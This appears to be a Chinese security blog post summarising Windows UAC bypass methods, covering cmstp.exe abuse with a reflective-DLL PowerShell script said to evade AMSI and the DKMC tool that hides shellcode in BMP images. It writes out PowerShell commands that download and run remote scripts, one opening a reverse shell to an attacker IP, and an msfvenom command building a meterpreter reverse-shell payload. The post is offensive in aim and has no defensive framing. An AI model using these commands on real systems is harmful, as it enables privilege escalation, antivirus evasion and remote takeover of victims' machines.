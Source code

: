 ```yaml
---
layout:     post
title:      Bypass UAC的一些总结
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-326425.jpg
catalog: true
tags:
    - Bypass UAC
---
```


这几天看到的bypass 方法比较多，趁今天有空做个总结

一、利用microsoft的 “cmstp.exe”作为绕过UAC

其主要原理采用c#生成带有dll反射的的powershell脚本，amsi检测不到

关于amsi的文章参考：

https://xz.aliyun.com/t/3095

这里的文件编译号生成为dll文件

![2.png](https://www.t00ls.net/attachment.php?aid=NzEzMzN8YjVlN2RjNDV8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes)

![3.png](https://www.t00ls.net/attachment.php?aid=NzEzMzR8ZWE2ZTRjOGR8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes)

执行即可弹出administrator的命令行

另附自动化脚本放在附件里

![1.png](https://www.t00ls.net/attachment.php?aid=NzEzMzV8NTE4ZGZmMjF8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes)

 

这里看到与表哥复现

通过远程iex下载我们的执行命令脚本

生成一个一个直接执行命令的exe

①powershell iex (New-Object Net.WebClient).DownloadString('http://InvokePowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.] 

②powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.211.179:80/a'))" 

但是如何修改代码生成可执行命令的exe和脚本，还没弄懂  有时间大佬可以研究研究

二、DKMC

使用方法：

(gen) Generate a malicious BMP image //创建一张恶意BMP格式的图片 

(web) Start a web server and deliver malicious image //启动web服务（内置）并传送恶意图片 

(ps) Generate Powershell payload //创建Powershell 有效载荷 

(sc) Generate shellcode from raw file //从原始文件生成shellcode 

(exit) Quit the application //退出

生成shellcode
kali ip： 192.168.0.107
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=9999 -f raw  > /opt/shellcode
![4.png](https://www.t00ls.net/attachment.php?aid=NzEzMzZ8MDkyY2ZjNDV8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
DKMC生成shellcode
![5.png](https://www.t00ls.net/attachment.php?aid=NzEzMzd8ZGIwNzUyMWJ8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
![6.png](https://www.t00ls.net/attachment.php?aid=NzEzMzl8YzdmYjdhMTh8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
![7.png](https://www.t00ls.net/attachment.php?aid=NzEzNDB8MWQzNzFjNDN8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
![8.png](https://www.t00ls.net/attachment.php?aid=NzEzNDF8OGU5NTI5M2R8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
![9.png](https://www.t00ls.net/attachment.php?aid=NzEzNDJ8YjAzNWVmOTh8MTU0NDcxMDEwOXwzYzkzOXM1c1AwMnpOQURVUVBXcm1JTy9RN2lCaTFSOUEvL0IydElsTGFyZUIvaw%3D%3D&noupdate=yes) 
这个之前尝试是可以弹shell的，今天不知道为啥不行.....我改天再试试看，原理就是把shellcode放入bmp文件中	